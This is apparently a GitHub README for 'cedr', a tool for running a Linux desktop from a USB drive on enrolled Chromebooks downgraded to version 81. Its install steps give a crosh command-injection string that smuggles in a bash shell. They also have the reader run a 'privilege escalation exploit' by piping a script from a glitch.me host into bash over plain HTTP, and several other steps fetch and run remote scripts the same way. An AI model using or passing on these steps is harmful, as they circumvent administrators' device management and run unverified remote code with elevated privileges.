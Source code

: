 # cedr
cedr - the ChromeOS Enrolled Desktop Runtime

## Requirements
 - A Chromebook, downgraded to v81 with crosh access
 - A USB drive or SD card, 4gb or more (32gb is reccomended), formatted with a **single partition**, ext4 filesystem

## Installation onto a USB drive

1. Open a crosh tab (Ctrl+Alt+T) and get into bash:
```crosh
set_cellular_ppp \';bash;exit;\'
```
2. Run the privilege escalation exploit:
```bash
bash <(curl http://hostz.glitch.me/80.sh)
```
3. Now, plug in your USB drive/SD card and find the path to its block device. Usually, it'll be /dev/sda if you're using a USB drive, or something different with an SD card. Either way, use the following command to find it (it's usually at the bottom)
```bash
fdisk -l
```
4. Once you know the drive you're installing cedr to, you now need to choose a target to install. You can choose from the options [here](https://github.com/rainestorme/crouton/tree/master/targets). Each target represents a desktop environment. For this tutorial, I'll use `xfce` as the target, but you can change it to whatever you want:
```bash
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
```
5. This will take around 50 minutes and once it's done, it will prompt you for a username and password. Supply these and the chroot will automatically be unmounted. Now, to activate the desktop, run the following:
```bash
cd /home/chronos/usbdrv
./cedr-activate.sh
```
6. Now that you're done working within your chroot desktop environment, you can logout of the session using the built-in controls. If you want to unplug the USB drive, wait for the process to finish unmounting, then run the following:
```bash
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

## Usage

After creating a USB drive with cedr, you can remount it and launch the desktop environment with the super-duper-ultra-easy command found below:

```bash
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

Once again, replace /dev/sdX with your USB drive/SD card.

Once you're done, just do the same thing as before to unmount your drive:

```bash
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```
